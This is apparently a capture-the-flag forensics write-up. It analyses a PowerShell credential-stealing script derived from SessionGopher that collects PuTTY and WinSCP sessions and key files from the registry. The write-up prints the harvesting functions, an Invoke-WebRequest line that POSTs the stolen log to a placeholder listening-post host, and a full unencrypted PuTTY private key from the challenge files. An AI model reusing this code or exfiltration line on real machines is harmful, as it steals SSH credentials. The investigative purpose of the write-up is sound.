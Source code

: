 ### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. It is also the only function really called from the main line so we will start there.

```powershell
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

``` powershell
function ProcessPuTTYLocal($AllPuTTYSessions) {

  # For each PuTTY saved session, extract the information we want
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)

    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal
```
This is the one of the bulk digging functions of the malware. This method looks at each PuTTY session store in the Registry and extracts two values, *HostName* and *PublicKeyFile*. These two values are exactly what the malware needs to be able to get into a machine, as long as the Public Key file is non-encrypted. From all of the parsed keyfiles in the registry the malware then searches the machine for the matching key files and saves them to the global log as a .csv. The other digging method looks for WinSCP sessions and does the same thing. After the registry and key files are parsed, the malware then makes it POST request to the LP.

```
Invoke-WebRequest -uri http://rlwmw.invalid:8080 -Method Post -Body $global:log
```
Now knowing that the malware is searching for unsecure keys stored on the machine, we must look at the included NTUSER registry file to see if any keys are not encrypted.

### Understand Windows Registry

The first step to examine the Registry is to know how to open the file. After research, I was able to load the hive onto my windows machine and was ready to see what the malware touched. (Note: regexsh also works for linux machines to examine the file from the command line.) Following the path in the malware, I was albe to see that there was a decent amount of files that the malware examined. 

```powershell
$PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
$WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"
```

![image](https://user-images.githubusercontent.com/94944325/145702185-36260c1c-2458-4dc1-99ce-eb84cb5d11fb.png)

Looking into the registry, we were able to narrow down the list of keys we needed to find that could be unencrypted. We can see that there are 5 PuTTY keys that we need to verifyied.


### Determine Comprimise

After knowing which PuTTY Sessions were stored in the employee's registy, we now need to look at the session keys to make sure they are encrypted. After searching through the 5 keys present, we found that the key for dkr_prd72 was not encrypted, meaning the LP now how the credentials to ssh into the machine.

```
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: __COMP4__
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEAi2xdUFsRQhaU92qNU6U+pbUbHT+8me2TiY+v
8Nc3VHBuQRQ1p4OjJuhryN0dTv18uaW1lc1uFBHWExpPYaBAP3O7HzTfRD/o5xYH
L2+NMELqIeMkHMa/5BDzOB+sTObQdLJ5ZlAlczBdDsKI7hQwp9w6VherXzadGx2N
rD/uME4ETJZj/a3WqdmYU5JinX58DwM8zqALh3CMZP0ZE7tPiW5vyEo6TDYX9o02
l2V5+Cah8zpyXSiIYEe3WKqp2Ohl83J2E/FuWse3kGiSdBVk3JMtmsZkzmL25wh9
K3LjdS3hzmi6z7IT1rmU+5yOR+Km9dTCvqY27AU0fouGNlDi8w==
Private-Lines: 14
AAABAHELwUgSfLIgJcGwVunf7ZsdOJRBhCnHjGGyxgGL56w/e/1qVQRc5SZ3QqLc
y6fUcvdjw6nk1csVYXdFw9Kdm+BrrHoq3opdVQ5k4zs32kLOeKXaw1WaOrjrJhHU
fd184F6ei/IXeE+O/1gTWkR/ErGdzm9RdjGGOjGpQm/8e+/PWYizwcOTJfCXuFKF
qaOJbCovinuFic+376Rhgo5Vo0sqqjlkRC8EPrewBbjc157Y2okKVmoc2H75XV1/
uBZ3o6oS8KknQAwYSdQZmdLnx2Uqft8j5MvdjsA+JHRmIjPWa2/UjOaPjPi4U6OH
uC1tK+xUF7Du0OAHIErSQYTeDv0AAACBANOT1+3kz7BzkptUoYJL6Y34S7NMemYu
IzcgWP+4fH4MS9G6yd2B+vUff/yo3uWddF/o8A0TLyjHTY01EVIN+qafgcqPD4aA
GjQonifN0KJnsa8XqADuW4qZl7vB8ZNOA8SYHtpzgVbYsnABus8LV5g3AqAFI7UF
DEMEJ6ZQ3P8HAAAAgQCoskcpQUJEODaImSnkbklPFeNNpYl7YaY2PivWNDuZKPaH
18j3oU+AJ7QhzsuKbB5FlHlhHG9lpwrhp8AW4mtCRnLpGqj2urGw4jNgIibmIsau
1k/85JhNT0Y/HjaMXrK61wf/YfcoujTf9HYX0VE2cK6wLBezfVaN6ukXn3MVtQAA
AIB2+HEmxXUIAqNj7Us3KjvUXVEzzYfT+J+MqkC22GJbKsUWGb+0EWTSLgTQtI83
WxEFBGJ1fo5pQ0KHDEdry9+s91yrHlMnfQBl33R8eKZKdknvh53C0ney+4C21Fc+
u++6hO4qP3foJEIJ4t7wPTtMOVNHRkfFLnGPSFy7jwjWMA==
Private-MAC: 69516e4c3f42737590234ba010954761879abd61
```

In order to get the flags of the user and machine, we simply need to navigate to the this keys location in the registry file and extract the value of the key.

![image](https://user-images.githubusercontent.com/94944325/145702220-e11866e9-264f-4a22-8ace-248b463eba21.png)

![image](https://user-images.githubusercontent.com/94944325/145702234-fc112f06-a083-4d61-a894-afe4fc4ad68d.png)

To complete this task, we were looking for the Hostname and Machine that the attacker now has access to, this can be seen in the snippits of the registry variables above. Since the PuTTY key is not encrypted, the LP can now ssh into the machine freely using builder07@drk_prd72.

